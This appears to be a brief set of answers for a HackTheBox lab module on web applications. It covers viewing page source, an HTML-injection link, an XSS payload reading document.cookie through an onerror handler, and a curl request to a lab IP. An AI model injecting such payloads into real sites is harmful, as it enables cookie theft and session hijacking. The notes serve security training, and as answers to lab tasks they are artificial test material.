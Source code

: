 # Introduction to Web Applications

## Sensitive Data Exposure

go to the IP address url and press 'ctl+u' to see the source code

## HTML Injection

Insert the following in the input box: 

```
<a href="http://www.hackthebox.com">Click Me</a>
```


## Cross-Site Scripting (XSS)


Insert the following in the input box: 

```
#"><img src=/ onerror=alert(document.cookie)>
```

## Development Frameworks & APIs

```
curl -X GET 188.166.172.138:31319/index.php?id=1
```

